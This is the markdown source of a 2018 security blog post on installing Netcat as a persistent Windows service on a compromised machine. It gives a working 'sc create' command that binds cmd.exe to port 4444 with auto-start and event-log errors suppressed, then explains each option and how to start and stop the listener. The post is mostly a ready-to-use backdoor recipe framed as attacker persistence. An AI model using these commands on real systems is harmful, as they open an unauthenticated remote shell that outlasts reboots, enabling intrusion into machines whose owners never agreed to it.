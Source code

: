 ```yaml
---
title: 'Netcat as a service'
date: 2018-11-28 23:45
categories: security
tags: netcat hack learn 
featured_image: '/images/posts/netcat.jpg'
lead_text: "Installing netcat as a windows service"
---
```

Many times I've used Netcat to setup (reverse) shell from a compromised 
machine. Digging into services lately, I thought why not use a service
to make Netcat a persistent to be able to return to the machine.

## Adding the service
Service executables are no regular executables. Upon start, the service
process returns directly after starting, but keeps the process running.

Just using `nc.exe` would block the service control and keep the status
"starting...". So we use `cmd /c start ...` to return immediately after
spawning the `nc.exe` process.

```dos
C:\Windows\system32>sc create NcService binPath= "cmd.exe /c start c:\nc.exe -nLp 4444 -e cmd.exe" start= auto error= ignore
[SC] CreateService SUCCESS

C:\Windows\system32>
```

## Netcat options
Starting netcat with `c:\nc.exe -nLp 4444 -e cmd.exe`.

The options provided to `nc.exe`:

  * -n : Numeric ip-address, no DNS
  * -L : Persistent listener, restart listening after disconnect.
  * -p : Specify to listen on port 4444
  * -e : The program to run upon connect.

## Netcat service create options
The options provided to `sc create`:

  * "start= auto" : Automatically start the service on booting
  * "error= ignore" : Do not log errors to eventlog.
  * "binPath= ..."

## Starting and stopping
Netcat is setup now, but still it is not an actual service.
Netcat will start, but there will be an error:

```dos
C:\>sc start NcService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

C:\>

```

Also the status will not tell whether Netcat is running, neither
will it be possible to stop the service.

To stop Netcat, use taskkill:
```dos
C:\>taskkill /f /im nc.exe
SUCCESS: The process "nc.exe" with PID 5576 has been terminated.

C:\>sc start NcService
```

## Wrap up
So, not very pretty, but it works fine for me...
